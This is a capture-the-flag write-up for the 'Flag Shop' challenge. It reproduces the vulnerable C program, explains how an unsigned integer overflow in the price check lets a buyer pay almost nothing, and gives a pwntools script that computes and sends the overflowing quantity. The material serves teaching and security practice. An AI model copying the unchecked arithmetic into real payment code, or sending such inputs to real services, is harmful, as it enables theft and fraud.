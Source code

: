 # Flag Shop

| Difficulty | Points |
| ---------- | ------ |
| Easy       | 150    |

## Description

> I'm only selling 1 product and that's flags! Please make sure you calculate how much money you have before coming here.

> `34.126.175.135:8001`

{% file src="../../../.gitbook/assets/chall" %}

{% file src="../../../.gitbook/assets/chall.c" %}

## Solution

### TL;DR

1. Perform Integer Overflow to overflow `pay_price` to be < 100(balance).

### Analysis

{% tabs %}
{% tab title="chall.c" %}
```c
#include <stdio.h>
#include <stdlib.h>

int flag_price = 420;
unsigned int balance = 100;

void menu_options(){
    puts("\nOptions:");
    puts("1. Buy flag");
    puts("2. Exit\n");
    return;
}

void purchase(){
    unsigned int quantity;
    unsigned int pay_price;
    FILE* ptr;
    char c;
    puts("How many flags do you want to purchase?");
    scanf("%u",&quantity);
    if (quantity < 1) {
        puts("Here are your imaginary flags:");
        return;
    }
    pay_price = flag_price * quantity;
    if (pay_price <= balance) {
        balance -= pay_price;
        if (quantity > 1) {
            puts("You don't have to flex how rich you are...");
        }
        ptr = fopen("flag.txt","r");

        if (ptr == NULL) {
            puts("Missing file?");
        }
        c = fgetc(ptr);
        while (c != EOF) {
            printf("%c",c);
            c = fgetc(ptr);
        }
        fclose(ptr);
    } else {
        puts("You do not have enough money!");
    }
    return;
}

int main(){
    unsigned int user_input;
    puts("Welcome to my flag shop!\nBuy anything from flags, to flags!");
    while (1){
        menu_options();
        printf("<<< ");
        scanf("%u",&user_input);
        if (user_input == 1){
            purchase();
        } else {
            printf("Come again!");
            exit(0);
        }
    }
   return 0;
}

```
{% endtab %}
{% endtabs %}

Program is pretty simple and limited with what you can do, so it is pretty straightforward.

The only option you have is to exit or provide the number of flags you want to buy, so our vulnerability is in the number of flags we provide.

We can see that our input is placed into the `quantity` variable, then the program calculates `pay_price = flag_price * quantity;`, and then checks if our balance is more than `pay_price`.

The thing to note is that the `pay_price` variable is assigned a type of `unsigned int` as seen at the start of the `purchase` function.

```c
    unsigned int pay_price;
```

This means that the value of `pay_price` cannot go into the negative (unsigned), but the problem lies in where is doesn't check for how big the value of `pay_price` might get.

The `int` type has a maximum value that it can store, any number above that value would cause an `integer overflow`, where the number wraps around and gives a smaller number than intended.

{% hint style="info" %}
An `integer overflow` occurs when a variable tries to store a value more than it can store.

Let's say a variable can only store 1 byte, meaning 0xff (255) is the maximum value it can store.

Well, what happens if you try to store 0x100 (256) in the same variable? It will overflow and the value stored in the variable will now be **0**.

And if you try to store 0x101 (257) in the same variable, it will overflow and store the value **1** instead.

You can essentially think of this as an AND operator on the Least Significant Bits of the value, where **`max value of 0xff = value & 0xff`** (& represents bitwise AND operator).
{% endhint %}

Searching online for the maximum value of `int`, we find at [https://learn.microsoft.com/en-us/cpp/c-language/cpp-integer-limits?view=msvc-170](https://learn.microsoft.com/en-us/cpp/c-language/cpp-integer-limits?view=msvc-170):

> UINT\_MAX Maximum value for a variable of type unsigned int. 4294967295 (0xffffffff)

So we can essentially craft a script that loops through the numbers of flags we can purchase, making sure to account for our integer overflow, and loop through till our `pay_price` <= 100.

{% tabs %}
{% tab title="solve.py" %}
```python
#!/usr/bin/env python3

from pwn import *

elf = context.binary = ELF('./chall',checksec=False)
# p = elf.process()
url,port = "localhost", 8001
p = remote(url,port)

max_int = 0xffffffff # max for unsigned int https://learn.microsoft.com/en-us/cpp/c-language/cpp-integer-limits?view=msvc-170
flag_price = 420

p.clean()
p.sendline(b'1')

max_quantity = max_int // flag_price
quantity = max_quantity + 1
expected_price = (quantity)*flag_price % (max_int+1)
print("Finding the right quantity. This might take awhile...")
while expected_price > 100:
	quantity = (quantity + (max_quantity + 1)) % (max_int+1)
	expected_price = ((quantity)*flag_price) % (max_int+1)

print(f"{expected_price=}")
print(f"{quantity=}")

p.clean()
p.sendline(str(quantity).encode())

for _ in range(2):
	print(p.recvline())

p.close()
```
{% endtab %}
{% endtabs %}

